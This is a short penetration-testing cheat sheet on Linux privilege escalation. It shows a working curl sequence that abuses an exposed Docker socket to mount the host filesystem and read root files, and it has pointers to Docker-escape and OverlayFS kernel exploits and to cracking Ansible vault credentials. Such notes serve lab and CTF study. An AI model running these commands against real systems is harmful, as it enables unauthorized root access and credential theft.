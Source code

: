 # Linux

### Exposed [Docker Socket](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

```text
1) curl -i -s -k  -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "188a2704d8b0","Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}' http://localhost/containers/create --unix-socket /var/run/docker.sock
2) curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<container_id>/start
3) curl -i -s -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/hostos/root/root.txt"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://localhost/containers/<container_id>/exec --unix-socket /var/run/docker.sock 
4) curl -i -s -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost/exec/<exec_id>/start --unix-socket /var/run/docker.sock 
```

### Docker Exec

If you have a low privileged user and can do `sudo docker exec ...` chances are you can use [CVE-2019-5736](https://github.com/Frichetten/CVE-2019-5736-PoC) \(Ubuntu 18.04, Debian 9\) to escalate to root on the host. Modify main.go with your payload and execute in the container. Then do another `sudo docker exec ...` to trigger it.

### Docker Escape using SYS\_MODULE cap

{% embed url="https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd" %}

### Ansible Credentials

Find & check "ansible.yml". Encrypted password can be converted with "ansible2john" and then decrypted:

```text
cat pw.txt | ansible-vault decrypt
```

### Ubuntu 20.04 OverlayFS Exploit CVE-2021-3493

[https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/)

Should work on most Ubuntus not patched after March 2021, tested on `4.15.0-132-generic #136-Ubuntu`.

### Resources

* [Privilege escalation using LD\_PRELOAD](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)
* [Linux privilege escalation using shared libraries](https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library)
* [Abusing Shared Libraries](https://www.boiteaklou.fr/Abusing-Shared-Libraries.html#but-can-we-exploit-it)



